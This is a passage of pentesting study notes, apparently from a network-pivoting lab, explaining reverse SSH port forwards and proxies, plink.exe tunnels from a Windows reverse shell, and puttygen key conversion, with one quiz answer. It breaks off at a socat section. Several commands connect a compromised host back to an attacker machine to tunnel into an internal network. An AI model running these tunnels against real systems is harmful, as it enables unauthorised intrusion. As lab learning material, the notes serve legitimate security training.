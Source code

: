  With the key transferred, we can then connect back with a reverse port forward using the following command:

 command syntax : `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`

 command Example : `ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa`
 
 This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

Note: In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the -D switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:
 command : `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`

 This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

 ### plink.exe:
 

 
 command for sending binary and use it to gain reverse connection

 command: `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`
cmd.exe /c echo y  at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise)

 #### Example:

  To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this
 command: `cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

 **Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool**, which can be installed on Kali using 
 command: `sudo apt install putty-tools`.
 After downloading the tool, conversion can be done with:
 command: `puttygen KEYFILE -o OUTPUT_KEY.ppk`
 
 Substituting in a valid file for the keyfile, and adding in the output file.

 The resulting .ppk file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).
``
 Q:  What tool can be used to convert OpenSSH keys into PuTTY style keys?
 A: puttygen
``

  ### Socat:
  
 To share the binary of socat in the compromise machine go to the folder/location of the
 binary of the socat and open terminal there and use the following command 
